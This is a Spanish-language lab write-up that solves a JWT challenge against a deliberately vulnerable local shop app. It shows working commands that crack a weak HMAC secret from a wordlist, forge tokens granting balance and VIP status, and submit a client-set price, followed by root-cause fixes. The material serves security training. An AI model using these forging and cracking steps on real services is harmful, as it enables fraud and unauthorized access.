




# Resolución — Desafío JWT (TiendaVulnerable)

Todo se corrió **en mi máquina**: la app en `localhost:5000`, el cracker es un script propio con la librería estándar de Python y se ejecutó dentro de un namespace sin red (`unshare -rn`) para demostrar que es 100 % offline. El token nunca se pegó en ningún sitio web.

## Resumen

| | |
|---|---|
| Debilidades | CWE-602 (el servidor confía en datos que controla el cliente) · CWE-798 (secreto hardcodeado) · CWE-326 (secreto débil) |
| Dato de negocio en el token | `balance` e `isVip` viajan en el payload y `/me` y `/tienda/comprar` los toman como verdad |
| Secreto recuperado | `secret123`, en la posición 8 de `tools/wordlist.txt`, en menos de 1 ms |
| Impacto | Cualquiera se asigna saldo y VIP (incluso con un `sub` que no existe en la base) y compra productos que no puede pagar, con descuento |
| Hallazgo extra | `/tienda/comprar` también acepta `precio` desde el body: sin forjar nada, alice compra la notebook a $1 |

## Paso 1 — Inspeccionar el token

Login como `alice` y decodificación local del header y el payload (Base64URL, no hay cifrado):

```bash
TOKEN=$(curl -s -X POST http://localhost:5000/auth/login -H 'Content-Type: application/json' \
  -d '{"username":"alice","password":"alice123"}' | jq -r .token)
echo "$TOKEN" | cut -d. -f2 | tr '_-' '/+' | base64 -d 2>/dev/null | jq .
```

```json
{ "sub": "1", "username": "alice", "balance": 100, "isVip": false, "iat": 1794267267 }
```



## Paso 2 — Crackear el secreto offline

Completé `server/tools/crack_local.py`:

- separa el token en sus 3 partes y lee el `alg` del header (soporta HS256/384/512);
- para cada palabra del diccionario calcula `HMAC(palabra, "header_b64.payload_b64")`;
- compara contra la firma decodificada con `hmac.compare_digest` (comparación en tiempo constante).

```bash
cd server
unshare -rn python3 tools/crack_local.py "$TOKEN"     # sin interfaz de red
# [+] SECRETO ENCONTRADO: 'secret123'   (8 candidatas, 0.0002 s)
```

Como verificación cruzada, PyJWT valida la firma con ese secreto (y de paso avisa `InsecureKeyLengthWarning`: la clave tiene 9 bytes cuando el mínimo recomendado para HS256 es 32).



## Paso 3 — Forjar un token

```bash
FORJADO=$(.venv/bin/python3 -c "import jwt; print(jwt.encode(
  {'sub':'1','username':'alice','balance':999999,'isVip':True}, 'secret123', algorithm='HS256'))")

curl -s http://localhost:5000/me -H "Authorization: Bearer $FORJADO"
# {"balance":999999,"isVip":true,"sub":"1","username":"alice"}

curl -s -X POST http://localhost:5000/tienda/comprar -H 'Content-Type: application/json' \
  -H "Authorization: Bearer $FORJADO" -d '{"producto":"notebook-gamer"}'
# {"ok":true,"descuento_vip_aplicado":true,"precio_final":7999.2,"balance_usado_para_autorizar":999999,...}
```

Con el token legítimo la misma compra devuelve `402 saldo insuficiente`. También funciona con `sub=999` / `username=atacante`, un usuario que **no existe** en la base: el servidor ni siquiera la consulta.



### Hallazgo extra: el precio también lo pone el cliente

```bash
curl -s -X POST http://localhost:5000/tienda/comprar -H 'Content-Type: application/json' \
  -H "Authorization: Bearer $TOKEN" -d '{"producto":"notebook-gamer","precio":1}'
# {"ok":true,"precio_final":1,...}
```

En `routes.py`, `precio = body.get("precio")` solo se busca en la base si viene vacío. Es la misma clase de bug (CWE-602): el precio tiene que salir siempre del catálogo.



## Causa raíz y remediación

| Dónde | Problema | Corrección |
|---|---|---|
| `jwt_utils.py` | `SECRET = "secret123"` en el código | Secreto aleatorio de ≥ 256 bits (`secrets.token_bytes(32)`) leído de una variable de entorno / secret manager, con rotación (`kid`) |
| `jwt_utils.emitir_token` | `balance` e `isVip` dentro del token | El token solo lleva identidad (`sub`, `iat`, `exp`, `jti`) |
| `routes.me` / `routes.comprar` | Autorizan con los claims | Buscar el usuario por `sub` en la base en cada request y usar su saldo / VIP reales; 401 si no existe |
| `routes.comprar` | `precio` del body | Ignorar el precio del cliente: siempre `db.producto_por_nombre()` |
| `jwt_utils.verificar_token` | Sin `exp` | `exp` corto (ej. 15 min), `algorithms=["HS256"]` fijo (ya está), `require=["exp","sub"]` |

## Extensión

- Pipeline y análisis local: ver [`SAST.md`](SAST.md).
- Preguntas para pensar: ver [`respuestas.md`](respuestas.md).
